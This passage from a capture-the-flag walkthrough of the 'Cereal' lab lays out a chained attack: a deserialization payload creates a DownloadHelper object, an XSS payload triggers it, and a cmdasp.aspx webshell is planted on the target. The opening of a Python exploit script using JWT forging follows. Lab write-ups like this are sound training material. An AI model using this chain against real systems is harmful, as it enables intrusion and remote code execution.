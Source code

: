 

So if I can create one of these objects, then it will download a file to
a location of my choosing.

## Shell as sonny

### Strategy

All of this comes together to form the exploit:

-   I'll submit a cereal request that creates an entry in the database
    with a string that will be deserialized to create a `DownloadHelper`
    object.
-   The server will respond with "Great cereal request!" and the ID of
    the request, which I'll note.
-   I'll send another request, this time with an XSS payload in the
    title that will made the user on Cereal send a GET request to
    `/requests/[id of first request]`.
-   The server will get and deserialize the first request, creating the
    `DownloadHelper` object.
-   The `DownloadHelper` object, on coming into existence and setting
    the URL and the file path, will try to download the file and save it
    on Cereal.

### RCE Script

I'll grab a copy of `cmdasp.aspx` from `/usr/share/webshells` that comes
on Parrot (or Kali).

Now I'll start building a Python script to exploit this. I'll build off
the JWT forging script I had earlier, changing it to store the token
rather then print it. I'll also add some code to handle parameters:



    #!/usr/bin/env python3

    import jwt
    import requests
    import sys
    from datetime import datetime, timedelta
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)


    # Get args
    try:
        ip = sys.argv[1]
        url = sys.arv[2]
        saveas = sys.argv[3]
    except IndexError:
        print(f'Usage: {sys.argv[0]} [IP] [url to upload] [filename on target]')
        sys.exit()
        